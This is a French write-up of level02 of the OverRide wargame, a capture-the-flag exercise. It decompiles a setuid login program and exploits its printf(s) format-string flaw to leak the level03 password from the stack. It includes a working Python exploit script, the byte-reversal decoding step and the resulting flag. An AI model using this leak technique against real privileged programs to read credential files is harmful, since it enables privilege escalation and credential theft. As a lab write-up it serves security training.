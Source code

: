 # OverRide : [level02]

### Observation :
En arrivant sur le level02 on trouve un exécutable nommé level02.\
Quand nous essayons de le lancer cela nous demande un nom d'utilisateur puis un mot de passe. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
//----- (0000000000400814) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s2[96]; // [rsp+10h] [rbp-110h] BYREF
  int v5; // [rsp+70h] [rbp-B0h]
  char ptr[48]; // [rsp+80h] [rbp-A0h] BYREF
  char s[96]; // [rsp+B0h] [rbp-70h] BYREF
  int v8; // [rsp+110h] [rbp-10h]
  int v9; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(s, 0, sizeof(s));
  v8 = 0;
  memset(ptr, 0, 41);
  memset(s2, 0, sizeof(s2));
  v5 = 0;
  stream = 0LL;
  v9 = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  v9 = fread(ptr, 1uLL, 0x29uLL, stream);
  ptr[strcspn(ptr, "\n")] = 0;
  if ( v9 != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(s, 100, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("--[ Password: ");
  fgets(s2, 100, stdin);
  s2[strcspn(s2, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(ptr, s2, 0x29uLL) )
  {
    printf(s);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", s);
  system("/bin/sh");
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre Programme, en 64bits, commence par ouvrir le fichier `/home/users/level03/.pass` et copie le contenu dans un string `ptr`, le programme nous demande par la suite notre nom d'utilisateur depuis `stdin` et le place dans la variable `<s>` (ce nom d'utilisateur sera printf plus tard). Il nous demande maintenant un mot de passe en `stdin` qu'il va ensuite comparer au `password` de `level03`. Dans le cas où nous aurions le bon mot de passe, cela nous ouvre un `shell` en tant que `level03` sinon ça nous print `"does not have access!"`|


#### Conclusions:
Nous savons que notre mot de passe est stoqué, dans la stack, dans la variable `<ptr>`. \
Nous savons que nous pouvons remonter dans la stack grâce à notre stdin de user qui est lu bêtement par printf.
> Effectivement printf utiliser de cette manière: "printf(s)" (sans argument) permet d'injecter des points d'injections (%s / %c / %n / ex..) qui nous permettent de remonter dans la stack.


----
Résolution:
----
Nous devons trouver ou dans la stack ou est stocker `<ptr>` et lire son contenu. \
Nous devons ensuite remonter de printf en faisant des points d'injections jusqu'à tomber sur `<ptr>` puis afficher chaque groupe de 8octets (nous sommes en 64bits) avec printf `%lx`. \
Ensuite, nous devons transformer chaque octets en caractère, cela nous donne ça:

>ptr brut (%lx * 5): "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d"

>ptr décoder: "M9KfPg3HsXGnh5J5XgNWCqz7Q9sa5JAEHh74RPnu"

Malheureusement si on le test en mot de passe cela ne fonctionne pas...

La cause ? Nous sommes en little endian, il faudra donc retourner nos blocs de 8 octets un par un...

En commande python cela donne quelque chose comme ça:

> 756e505234376848 | 45414a3561733951 | 377a7143574e6758 | 354a35686e475873 | 48336750664b394d

```sh
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"
```



#### Injection:
Mais ici, on fait dev, on ne fait pas les choses a la main donc on a fait directement un programme python qui fait absolument tout ce que j'ai dit précédemment: 
```python
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))
```
- Il pipe avant le programe avec `echo ' + '%c'*21 + '%8.lx'*5`
- Il lance le programe et recupere la derniere chaine de caracteres
- Il trouve les chiffres qui nous interressent 
- Il les met par blocs de 8 et les inversent
- Enfin il nous renvoient nous affiche notre mot de passe traduit en ASCII

#### Commande:
```bash
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"

----------------------------------------------------------------------------

python -c"
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))"
```

**Flag :** Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
